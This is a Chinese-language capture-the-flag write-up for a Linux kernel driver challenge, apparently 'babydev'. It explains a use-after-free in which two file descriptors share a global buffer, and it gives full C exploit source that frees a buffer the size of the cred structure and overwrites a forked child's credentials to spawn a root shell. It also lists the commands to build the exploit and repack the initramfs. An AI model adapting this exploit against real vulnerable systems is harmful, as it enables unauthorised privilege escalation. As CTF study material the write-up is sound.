
出现了这个东西，但看起来不影响调试


解决方法：[https://github.com/pwndbg/pwndbg/issues/2171](https://github.com/pwndbg/pwndbg/issues/2171)
用 sudo gdb 就能消除这个问题


# 思路
绑定到单个 CPU，否则 UAF 可能不会成功；但这道题启动时带了 ` -smp cores=1,threads=1`——1 核 1 线程——所以不需要绑定
1. 由于 babydev_struct 是一个全局变量，连续调用两次 open 会得到两个都能操作 babydev_struct 的文件描述符
2. 利用 close 之后内存被释放但不会清零这一点——即另一个未关闭的文件描述符仍然可以操作已释放的 babydev_struct.device_buf——存在 UAF
3. 如果此时刚释放的对象被重新分配成了 cred 结构体，那么获得的对象和 babydev_struct.device_buf 就是同一个，于是可以通过另一个未关闭的文件描述符来写 cred
# exp

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/wait.h>
#include <unistd.h>

int main() {
    int fd1 = open("/dev/babydev", O_RDWR); //分配device_buf和设置device_buf_len
    int fd2 = open("/dev/babydev", O_RDWR); // 分配重新设置device_buf和device_buf_len
    ioctl(fd1, 65537, 0xa8);    //分配重新设置device_buf和device_buf_len 大小和cred结构体一样
    close(fd1); // free掉0xa8大小的device_buf，但没清空

    if (!fork()) { //父进程返回子进程的pid，子进程返回0
        
        char mem[4 * 7]; // usage uid gid suid sgid euid egid
        memset(mem, '\x00', sizeof(mem));
        write(fd2, mem, sizeof(mem));
        system("/bin/sh");
    }
    else
        wait(NULL);  //父进程要等子进程结束才行

    return 0;
}
```

# 放入内核并运行 exp
静态编译

```c
gcc exp.c -static -o exp

```
重新打包

```c
find . | cpio -o --format=newc > rootfs.cpio

```



